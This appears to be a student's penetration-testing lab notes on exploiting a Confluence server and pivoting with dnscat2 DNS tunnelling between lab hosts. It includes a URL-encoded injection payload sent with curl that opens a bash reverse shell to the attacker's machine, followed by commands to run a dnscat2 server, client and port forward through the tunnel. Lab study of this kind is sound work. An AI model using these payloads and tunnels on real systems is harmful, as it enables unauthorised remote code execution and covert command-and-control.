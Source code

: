 ```yaml
---
IP_KALI: 192.168.45.157
IP_FELINE: 192.168.227.7
IP_PGDATABASE: 10.4.234.215
IP_CONFLUENCE: 192.168.234.63
IP_MULTISERVER: 192.168.234.64
IP_SHARES: 172.16.227.217
PORT_SHARES: "4646"
---
```

![[Pasted image 20241011115809.png | 2000]]

7he_C4t_c0ntro11er
- curl http://<span id="IP_CONFLUENCE"/>192.168.234.63<span type="end"/>:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/<span id="IP_KALI"/>192.168.45.157<span type="end"/>/4444%200%3E%261%27%29.start%28%29%22%29%7D/

Make FELINE a functional DNS server:
```
cd dns_tunneling
```

```
cat dnsmasq.conf
```

Inspect traffic on FELINE:
```
sudo tcpdump -i ens192 udp port 53
```

On second FELINE terminal:
```
dnscat2-server feline.corp
```
OUTPUT:
```
...
New window created: dns1
Starting Dnscat2 DNS server on 0.0.0.0:53
[domains = feline.corp]...
...
```

On DATABASE, check the DNS settings to determine the IP address of that computers DNS server:
```
resolvectl status
```
OUTPUT:
```
database_admin@pgdatabase01:~$ resolvectl status
...             

Link 5 (ens224)
      Current Scopes: DNS        
DefaultRoute setting: yes        
       LLMNR setting: yes        
MulticastDNS setting: no         
  DNSOverTLS setting: no         
      DNSSEC setting: no         
    DNSSEC supported: no         
  Current DNS Server: 10.4.50.64
         DNS Servers: 10.4.50.64

Link 4 (ens192)
      Current Scopes: DNS        
DefaultRoute setting: yes        
       LLMNR setting: yes        
MulticastDNS setting: no         
  DNSOverTLS setting: no         
      DNSSEC setting: no         
    DNSSEC supported: no         
  Current DNS Server: 10.4.50.64
         DNS Servers: 10.4.50.64
```
The DNS server is listed in field "Current DNS Server" and "DNS Servers"


***Tunnelling With dnscat2***

- First setup SSH remote port forward from DATABASE to CONFLUENCE and SSH into DATABASE


On FELINE
```
sudo tcpdump -i ens192 udp port 53
```

```
dnscat2-server feline.corp
```

ON DATABASE:
- Run ./dnscat with "feline.corp" as an argument
```
cd dnscat/
```
```
./dnscat feline.corp
```

On FELINE:
```
dnscat2-server feline.corp
```

On dnscat, initiate command window:
```
windows
```
```
window -i 1
```
```
?
```


Setup port forward on dnscat running on FELINE:
- listen 0.0.0.0:4455 <span id="IP_SHARES"/>172.16.227.217<span type="end"/>:<span id="PORT_SHARES"/>4646<span type="end"/>